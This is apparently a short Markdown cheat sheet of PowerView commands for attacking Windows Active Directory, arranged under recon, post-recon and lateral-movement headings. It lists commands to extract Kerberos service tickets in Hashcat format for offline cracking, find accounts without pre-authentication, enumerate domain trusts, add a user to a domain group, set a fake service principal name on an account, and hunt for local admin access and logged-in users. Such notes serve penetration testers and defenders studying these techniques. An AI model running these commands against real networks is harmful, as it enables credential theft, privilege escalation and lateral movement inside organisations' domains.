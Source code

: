## Recon Get DomainSID
```
Get-DomainSid -Domain <domain>
```

## Recon Get GPOs
```
Get-NetGPO | select displayname, gpcfilesyspath
```

## Recon Get SPN
```
Get-DomainUser -SPN | Get-DomainSPNTicket -OutputFormat Hashcat
```

## Recon Find Preauth user
```
Get-NetUser -PreauthNotRequired
```

## Post-Recon Enum Domain Trust
```
Get-DomainTrust -Domain <domain>
```

## Post-Recon Enum Domain Trust Map
```
Get-DomainTrustMapping
```

## PowerView Add user to domain group
```
Add-DomainGroupMember -Identity '<groupname>' -Members '<username>'
```

## PowerView Set SPN
```
Set-DomainObject -Credential $creds -Identity <account> -Set @{serviceprincipalname="fake/NOTHING"}
```

## Lateral Movement  Find-LocalAdminAccess
```
Find-LocalAdminAccess -Verbose
```

##  Lateral Movement - UserHunter
```
Invoke-UserHunter -CheckAccess
```
